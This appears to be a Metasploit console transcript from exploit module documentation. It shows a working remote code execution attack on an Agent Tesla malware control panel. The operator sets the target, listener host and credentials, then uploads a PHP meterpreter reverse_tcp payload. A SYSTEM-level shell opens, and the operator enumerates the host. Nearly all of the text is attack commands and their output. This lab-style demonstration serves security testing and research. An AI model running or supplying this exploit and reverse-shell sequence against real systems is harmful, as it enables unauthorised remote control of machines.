 ```
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /WebPanel/       yes       The URI where the Agent Tesla CnC panel is located on the target
   USERNAME                    no        The Agent Tesla CnC username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP-Dropper)


msf5 exploit(multi/http/agent_tesla_panel_rce) > set RHOSTS 169.254.162.16
RHOSTS => 169.254.162.16
msf5 exploit(multi/http/agent_tesla_panel_rce) > set LHOST 169.254.115.5
LHOST => 169.254.115.5
msf5 exploit(multi/http/agent_tesla_panel_rce) > set LPORT 5566
LPORT => 5566
msf5 exploit(multi/http/agent_tesla_panel_rce) > set USERNAME test
USERNAME => test
msf5 exploit(multi/http/agent_tesla_panel_rce) > set PASSWORD test
PASSWORD => test
msf5 exploit(multi/http/agent_tesla_panel_rce) > exploit

[*] Started reverse TCP handler on 169.254.115.5:5566
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Targeted operating system is: windows
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .RVfu.php to C:\wamp64\www\\WebPanel\\server_side\scripts\.RVfu.php
[*] Sending stage (38288 bytes) to 169.254.162.16
[*] Meterpreter session 1 opened (169.254.115.5:5566 -> 169.254.162.16:51840) at 2020-06-16 15:14:12 -0500
[+] Deleted C:\wamp64\www\\WebPanel\\server_side\scripts\.RVfu.php

meterpreter > getuid
Server username: SYSTEM (0)
meterpreter > sysinfo
Computer    : DESKTOP-EMAVUN1
OS          : Windows NT DESKTOP-EMAVUN1 10.0 build 18363 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > ls
Listing: C:\wamp64\www\WebPanel\server_side\scripts
===================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  2244   fil   2016-09-21 15:10:40 -0500  ids-arrays.php
100666/rw-rw-rw-  2235   fil   2016-09-21 15:10:40 -0500  ids-objects.php
100666/rw-rw-rw-  2069   fil   2016-09-21 15:10:40 -0500  jsonp.php
```